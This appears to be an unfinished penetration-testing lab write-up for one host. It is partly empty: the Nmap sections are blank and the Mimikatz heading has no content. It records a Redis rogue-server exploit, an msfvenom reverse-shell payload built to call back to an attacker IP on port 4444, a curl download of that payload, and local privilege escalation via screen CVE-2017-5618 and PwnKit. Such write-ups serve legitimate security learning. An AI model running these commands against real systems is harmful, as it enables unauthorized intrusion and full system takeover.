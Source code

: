 #InProgress 
```IP
192.168.189.176
```
## Nmap
```

```

## Nmap UDP


# Enumeration

## REDIS
```
python3.11 redis-rogue-server.py --rhost 192.168.222.176 --lhost 192.168.45.193 --exp=exp.so
```
create a more stable shell
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.193 LPORT=4444 -a x64 -f elf -o shell
```
```
curl http://192.168.45.193:8000/shell -o shell
```
call it and boom

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241116132103.png?raw=true)
local flag achieved
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241116132530.png?raw=true)


## Automated

### Peass
CVE-2017-5618 setuid screen v4.5.0 LPE
PwnKit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241117111500.png?raw=true)
root

### Mimikatz

